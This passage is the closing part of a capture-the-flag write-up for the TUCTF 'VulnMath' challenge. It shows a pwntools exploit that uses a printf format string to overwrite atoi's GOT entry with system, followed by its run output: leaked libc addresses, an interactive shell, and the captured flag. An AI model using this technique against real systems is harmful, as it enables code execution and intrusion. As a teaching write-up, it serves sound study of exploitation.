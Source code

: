 ```
secondWrite = ((system & 0xffff0000) >> 16) - firstWrite - 8

# Make the payload for the got address of atoi
fmtString = p32(0x804c038) + p32(0x804c03a) + '%' + str(firstWrite)+ 'x'  + '%6$n' + '%' + str(secondWrite) + 'x%7$n'

# Send the format string, execute the got overwrite
target.sendline(fmtString)

# Send /bin/sh for argument to system
target.sendline('/bin/sh\x00')

# Get shell
target.interactive()
```

When we run it:

```
$    python exploit.py
[+] Opening connection to chal.tuctf.com on port 30502: Done
[*] '/home/guyinatuxedo/Desktop/tuctf/libc.so.6'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
Welcome to VulnMath
Where your wildest shells can come true

What is 19 * 9?
> Incorrect!

libc base is: 0xf7d67000
system is: 0xf7dac8b0
[*] Switching to interactive mode

What is 17 * 3?
> Incorrect!
8:                 

.    .    .

What is 6 * 18?
> $ w
 06:07:41 up  7:50,  0 users,  load average: 0.09, 0.20, 0.28
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
$ ls
flag.txt
vulnmath
$ cat flag.txt
TUCTF{I_w45_w4rn3d_4b0u7_pr1n7f..._bu7_I_d1dn'7_l1573n}
```

Just like that we got the flag!